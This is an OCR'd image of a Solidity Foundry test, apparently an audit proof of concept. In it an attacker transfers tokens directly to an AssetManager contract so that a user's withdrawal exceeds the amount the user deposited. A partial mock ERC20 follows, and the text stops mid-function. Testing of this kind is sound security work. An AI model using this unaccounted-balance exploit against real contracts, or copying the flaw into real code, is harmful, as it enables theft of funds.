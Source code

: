 ```solidity
        assetManager.addAdapter(address(moneyMarket1));
        assetManager.addAdapter(address(moneyMarket2));
        vm.stopPrank();

        vm.startPrank(user);
        token.approve(address(assetManager), type(uint256).max);
        vm.stopPrank();
    }

    function testUnaccountedTokenTransfers() public {
        // User deposits 200 tokens
        vm.startPrank(user);
        token.mint(user, 200);
        assetManager.deposit(address(token), 200);
        vm.stopPrank();

        // Simulate money markets having 800 tokens
        vm.startPrank(admin);
        token.mint(address(moneyMarket1), 400);
        token.mint(address(moneyMarket2), 400);
        vm.stopPrank();

        // Attacker sends 1000 tokens directly to the AssetManager contract
        vm.startPrank(attacker);
        token.mint(attacker, 1000);
        token.transfer(address(assetManager), 1000);
        vm.stopPrank();

        // User requests withdrawal of 1200 tokens
        vm.startPrank(user);
        uint256 remaining = assetManager.withdraw(address(token), user, 1200);
        vm.stopPrank();

        // Check the remaining amount
        assertEq(remaining, 0, "Remaining amount should be zero");

        // Check the user's balance
        assertEq(token.balanceOf(user), 1200, "User should have withdrawn 1200 tokens");

        // Check the AssetManager's balance
        assertEq(token.balanceOf(address(assetManager)), 0, "AssetManager should have zero balance");

        // Check the money markets' balances
        assertEq(token.balanceOf(address(moneyMarket1)), 400, "MoneyMarket1 should still have 400 tokens");
        assertEq(token.balanceOf(address(moneyMarket2)), 400, "MoneyMarket2 should still have 400 tokens");
    }
}

contract ERC20Mock is IERC20Upgradeable {
    string public name = "MockToken";
    string public symbol = "MTK";
    uint8 public decimals = 18;
    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    function transfer(address recipient, uint256 amount) external returns (bool) {
        balanceOf[msg.sender] -= amount;
        balanceOf[recipient] += amount;
        emit Transfer(msg.sender, recipient, amount);
```
